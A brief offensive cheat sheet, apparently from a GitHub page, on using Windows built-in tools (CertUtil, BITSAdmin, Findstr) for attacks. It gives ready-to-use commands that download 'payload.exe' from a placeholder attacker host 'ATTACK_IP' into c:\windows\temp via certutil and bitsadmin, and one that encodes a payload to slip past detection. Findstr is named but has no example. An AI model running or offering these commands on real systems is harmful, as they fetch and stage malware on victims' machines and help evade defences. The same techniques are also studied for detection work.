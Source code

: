 ### Tools: CertUtil, BITSAdmin, Findstr

### Examples:

## CERTUTIL

#### 1) certutil -URLcache -split -f http://ATTACK_IP/payload.exe c:\windows\temp\payload.exe

#### 2) certutil -encode payload.exe Encoded-payload.txt

## BITSADMIN

#### 1)bitsadmin.exe /transfer /Download /priority Foreground http://ATTACK_IP/payload.exe c:\windows\temp\payload.exe

